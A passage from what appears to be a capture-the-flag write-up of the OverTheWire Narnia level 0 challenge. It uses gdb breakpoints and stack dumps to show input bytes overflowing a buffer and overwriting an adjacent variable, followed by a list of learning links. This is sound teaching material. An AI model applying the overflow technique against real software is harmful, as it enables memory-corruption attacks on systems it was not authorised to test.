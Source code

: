```sh
 0x080484f7 <+51>: mov DWORD PTR [esp+0x4],edx
 0x080484fb <+55>: mov DWORD PTR [esp],eax
 0x080484fe <+58>: call 0x8048400 <__isoc99_scanf@plt>
 0x08048503 <+63>: mov eax,0x804868e
 0x08048508 <+68>: lea edx,[esp+0x18]
 0x0804850c <+72>: mov DWORD PTR [esp+0x4],edx
(...)
End of assembler dump.
```
Let's put a break point right after ```scanf```:

```sh
(gdb) b *main+63
Breakpoint 1 at 0x8048503
```

We run the debugged program with 20 Bs (\x42) as the input. It stops in the address above, right after ```scanf```:
```sh
(gdb) r
Starting program: /games/narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance:

Breakpoint 1, 0x08048503 in main ()
```

Now we examine the memory in, say, 12 counts:

```sh
(gdb) x/12xw $esp
0xffffd6a0: 0x08048689 0xffffd6b8 0x08049ff4 0x08048591
0xffffd6b0: 0xffffffff 0xf7e59d46 0x42424242 0x42424242
0xffffd6c0: 0x42424242 0x42424242 0x42424242 0x41414100
```

The variable *buf* is in the 7-11th entries (0x42424242). Right after that is *val* (which we know is still 0x41414141). Wait, do you see the two zeros in ```0x41414100```? This is the space at the end of *buf*

Finally, we test with 20 Bs + 4 Cs and confirm that our exploit works:

```sh
(gdb) x/12xw $esp
0xffffd6a0: 0x08048689 0xffffd6b8 0x08049ff4 0x08048591
0xffffd6b0: 0xffffffff 0xf7e59d46 0x42424242 0x42424242
0xffffd6c0: 0x42424242 0x42424242 0x42424242 0x43434343
```


---

## Level 1: Stack Overflow with Environment Variables

### Step 1: Understanding the Problem


[inputs with no bounds checking]: http://en.wikipedia.org/wiki/Bounds_checking
[buffer overflow]: http://en.wikipedia.org/wiki/Buffer_overflow
[process's virtual memory]: http://en.wikipedia.org/wiki/Virtual_memory
[physical memory]: http://en.wikipedia.org/wiki/Computer_memory
[virtual memory space]: http://en.wikipedia.org/wiki/Virtual_memory
[direction of which the Stack grows]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[segmentation violation]: http://en.wikipedia.org/wiki/Segmentation_fault
[Heap]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/mvonsteinkirch/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[here are some examples]: https://github.com/mvonsteinkirch/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[this cheat sheet]: http://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://singularity.miavonsteinkirch.com/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP